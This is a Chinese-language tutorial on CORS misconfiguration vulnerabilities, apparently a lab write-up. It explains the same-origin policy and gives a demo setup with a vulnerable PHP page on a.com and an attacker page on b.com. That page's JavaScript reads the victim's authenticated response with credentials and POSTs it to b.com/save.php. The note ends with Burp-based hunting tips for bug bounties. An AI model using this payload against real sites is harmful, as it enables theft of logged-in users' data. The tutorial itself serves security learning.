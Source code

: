 #### CORS跨域读取学习 ####
<b>0x00同源策略</b>
SOP同源策略，该策略是浏览器的一个安全基操，如果没有同源策略，那么你打开了一个合法网站，又打开了一恶意网站。恶意网站的脚本能够随意的操作合法网站可操作资源，没有任何限制。

同源策略介绍:[Same-origin policy - Wikipedia](https://en.wikipedia.org/wiki/Same-origin_policy)
浏览器同源策略规定：不同域的客户端脚本在没有明确授权的情况下，不能读取读写对方的资源。那么何为同源：
|协议|域名|端口|是否同源
|-|-|-|-|
|相同|相同|相同|是
|不同|相同|相同|否
|相同|相同|不相同|否

![](https://ask.qcloudimg.com/http-save/yehe-1539004/q2owt35awt.jpeg?imageView2/2/w/1620)

一个最好的例子：
```
你在本地手动远程读取百度的logo，以读取到的二进制数据为准。很快你就会发现不行
这都是同源策略
```

>CORS，跨域资源共享（Cross-origin resource sharing），是H5提供的一种机制，WEB应用程序可以通过在HTTP增加字段来告诉浏览器，哪些不同来源的服务器是有权访问本站资源的，当不同域的请求发生时，就出现了跨域的现象。

<b>0x01跨域访问的一些场景</b>
>1.比如后端开发完一部分业务代码后，提供接口给前端用，在前后端分离的模式下，前后端的域名是不一致的，此时就会发生跨域访问的问题。
2.程序员在本地做开发，本地的文件夹并不是在一个域下面，当一个文件需要发送ajax请求，请求另外一个页面的内容的时候，就会跨域。
3.电商网站想通过用户浏览器加载第三方快递网站的物流信息。
4.子站域名希望调用主站域名的用户资料接口，并将数据显示出来。

<b>0x03CORS漏洞的攻击流程</b>
Access-Control-Allow-Origin:*
Access-Control-Allow-Credentials:true
```
通过指定：Access-Control-Allow-Origin允许那些来源可以跨域读取本站的资源，当Access-Control-Allow-Origin为默认的时候。允许任意来源来访问本站的资源，那么就导致了跨域读取

当站点没有指定Access-Control-Allow-Origin的时候，用户访问恶意站点的脚本，恶意站点的脚本请求站点。会被浏览器的同源策略默认拦截

当站点设置了Access-Control-Allow-Origin:*，用户访问恶意站点的脚本，恶意站点的脚本请求站点。浏览器的同源策略不起作用。因为被请求的站点允许任何来源跨域读取本站内容
```

攻击者手法：
攻击者利用cors漏洞把A.com的orgin改成接收用户信息的在线脚本B.com，然后生成一个链接引诱受害者去点击，如果受害者正好登录了A.com 并且点击了这个链接，则会把cookie发送到B.com

实例：
物理机win7:www.a.com
Kali:www.b.com


www.a.com/cors/a.php
```php
<?php
header("Content-Type: text/html;charset=utf-8");
if (isset($_COOKIE['demo'])){
    echo "欢迎管理员登录";
}else{
    echo '你好,游客';
}
if(isset($_GET['user'])){
    if($_GET['user']=='admin'){
        setcookie('demo','1');
    }
}
?>
```

www.b.com/demo.html
```html
<!DOCTYPE>
<html>
<h1>Hello I evil page. </h1>
<script type="text/javascript">
function loadXMLDoc()
{
    var xhr1;
    var xhr2;
    if(window.XMLHttpRequest)
    {
        xhr1 = new XMLHttpRequest();
        xhr2 = new XMLHttpRequest();
    }
    else
    {
        xhr1 = new ActiveXObject("Microsoft.XMLHTTP");
        xhr2= new ActiveXObject("Microsoft.XMLHTTP");
    }
    xhr1.onreadystatechange=function()
    {
        if(xhr1.readyState == 4 && xhr1.status == 200) //if receive xhr1 response
        {
            var datas=xhr1.responseText;
            xhr2.open("POST","http://www.b.com/save.php","true");
            xhr2.setRequestHeader("Content-type","application/x-www-form-urlencoded");
            xhr2.send("T1="+escape(datas));      
        }
    }
    xhr1.open("GET","http://www.a.com/cors/login.php","true") //request user page.
    xhr1.withCredentials = true;        //request with cookie
    xhr1.send();
}
loadXMLDoc();
</script>
</html>
```
login.php没有设置Access-Control-Allow-Origin
测试如下：
自动帮我们设置了origin头
![AJg1P0.md.png](https://s2.ax1x.com/2019/03/23/AJg1P0.md.png)


当我们放包，继续让浏览器执行的时候

(浏览器阻止了跨域读取)
![AJgaZ9.md.png](https://s2.ax1x.com/2019/03/23/AJgaZ9.md.png)

在login.php设置Access-Control-Allow-Origin
```php
<?php
header("Content-Type: text/html;charset=utf-8");
header("Access-Control-Allow-Origin: http://b.com");
header("Access-Control-Allow-Credentials: true");
if (isset($_COOKIE['demo'])){
    echo "欢迎管理员登录";
}else{
    echo '你好,游客';
}
if(isset($_GET['user'])){
    if($_GET['user']=='admin'){
        setcookie('demo','1');
    }
}
?>
```

重新请求一下,发现返回的响应里面有（Access-Control-Allow-Origin）
PS:在浏览器执行下一步执行用burp抓包重放是可以看到响应结果的
![AJRw36.png](https://s2.ax1x.com/2019/03/23/AJRw36.png)
```
Access-Control-Allow-Origin指是允许访问的源
Access-Control-Allow-Credentials指的是允许带上cookie访问资源
```
最后结果：
![AJWSrF.png](https://s2.ax1x.com/2019/03/23/AJWSrF.png)


![AJROCq.png](https://s2.ax1x.com/2019/03/23/AJROCq.png)

这里要注意的是，我们也可以测试下带有Access-Control-Allow-Origin: * 字段的网站是否有CORS漏洞，但是如果是如下组合，则没有漏洞，因为浏览器已经会阻止如下的配置。
![AJRsDe.png](https://s2.ax1x.com/2019/03/23/AJRsDe.png)

实际上挖掘跨域资源共享的要点就是：见到有origin请求返回的响应有Access-Control-Allow-Origin，尝试修改Origin头为自己的接收地址就行，详细看下面的secqun的文章。

<b>0x04总结</b>
实战挖SRC例子：
[secqun-前端跨域资源共享](https://secquan.org/Notes/1068983)
遨游浏览器没有做同源策略
[Maxthon for mac 获取保存的密码/跨域信息读取/任意文件写入 \| WooYun-2015-155672 | WooYun.org](http://www.anquan.us/static/bugs/wooyun-2015-0155672.html)

由于同源策略，会阻断另一个站点调用脚本来访问其他站点的资源。但是如果被访问的那个站点默认设置了Access-Control-Allow-Origin，默认是允许任何来源访问本站资源。至于能不能带cookie得看Access-Control-Allow-Credentials是否为tre。当Access-Control-Allow-Origin条件成立，那么浏览器的同源策略就拦截不了


检测该漏洞的方法就是如果遇见有Origin头部请求，扔到burp重放模块。第一次直接请求，会返回结果。看到Access-Control-Allow-Origin允许跨域本站的来源。然后你尝试修改origin到你的接收地址，如果超过的话就代表有"CORS跨域资源共享漏洞"。那么你就可以写个poc做验证，然后交给对应的SRC